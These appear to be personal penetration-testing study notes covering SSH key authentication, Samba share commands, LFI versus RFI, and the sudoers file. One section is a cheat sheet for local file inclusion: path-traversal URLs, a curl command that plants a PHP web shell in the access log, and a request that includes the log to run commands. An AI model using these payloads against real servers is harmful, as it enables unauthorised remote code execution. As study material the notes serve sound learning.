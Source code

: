 
# How SSH Key-Based Authentication Works
---

## Overview

SSH key-based authentication lets you log into a remote system **without a password**, using a **cryptographic key pair**:

- **Private Key** → stays on your machine
- **Public Key** → copied to the server (in `~/.ssh/authorized_keys`)

---

## Step-by-Step Authentication Process

### 1. Client Offers Key Type

The client begins the SSH connection and tells the server:
> "I want to authenticate using an `ssh-rsa` key."

---

### 2.  Server Checks `authorized_keys`

The server checks:

```
/home/<user>/.ssh/authorized_keys
```

It looks for a **matching public key**.

---

### 3.  Challenge–Response Authentication

- **Server** sends a random challenge (nonce)
- **Client** signs the challenge using their private key

---

### 4.  Server Verifies the Signature

- Using the public key from `authorized_keys`, the server checks:
  > "Did this private key really sign my challenge?"

 If the signature is valid → authentication **succeeds**  
 Otherwise → **access denied**

---

## What Goes in `~/.ssh/authorized_keys`

An example entry:

```
ssh-rsa AAAAB3... user@machine
```

- `ssh-rsa` → Key type
- `AAAAB3...` → Base64-encoded public key
- `user@machine` → Optional comment

-------------------------------------------------------------------
# What's SSH tunneling 




-----------------------------------------------------------------
# Samba 
Samba is a Linux/Unix implementation of the SMB/CIFS protocol that lets non‑Windows machines act as file‐ and print‐servers (or join Windows domains). At a high level:

## Services & Files  
- **Daemons**  
  - `smbd` – file/printer sharing  
  - `nmbd` – NetBIOS name service  
  - `winbindd` – AD user/group mapping  
- **Config**: `/etc/samba/smb.conf`  
- **Logs**: `/var/log/samba/`


## List shares: 
```bash
smbclient -L //<host> -U <user> 
```

## Mount shares:
```bash 
mount -t cifs //server/share /mnt \
  -o username=dora,password=Secret123
```

--------------------------------------------------------------

# LFI vs RFI
## LFI
    You can read arbitrary files (e.g. /etc/passwd).
    You may escalate to RCE by poisoning logs (e.g. access your PHP code into access.log and then include it).
    No direct outbound HTTP fetch is needed—everything is local.

## RFI
    The app fetches PHP code from your server and executes it immediately.
    You get straight up remote shell or backdoor.
    Modern PHP ships with allow_url_include=Off to block this by default.


# LFI → Log Poisoning → RCE Cheat Sheet

1. **Identify log file path**  
  Look at the config file before 
   ```bash
   # Try common Apache log locations via LFI
   http://TARGET/?something=../../../../../../var/log/apache2/access.log
   http://TARGET/?something=../../../../../../var/log/httpd/access_log
   ```
2. **Inject php code**
  ```bash 
  curl -A "<?php system(\$_GET['cmd']); ?>" http://TARGET/
  ```
3. **Trigger LFI to include the poisoned log**
http://TARGET/image.php?img=../../../../../../var/log/apache2/access.log%00&cmd=id


----------------------------------
# The sudoers file 

Configuration file that defines who (which users or groups) is allowed to run what commands as which users (usually root), and how (with or without password). It’s parsed by the sudo command and controls all of sudo’s behavior.
User specifications
## Grant specific users or groups the ability to run commands as other users:
EXP:
user    host = (run-as) options: commands
alice     ALL  = (ALL)       ALL
bob       web  = (root)      NOPASSWD: /usr/bin/systemctl restart apache2
%admins    ALL = (ALL:ALL)   ALL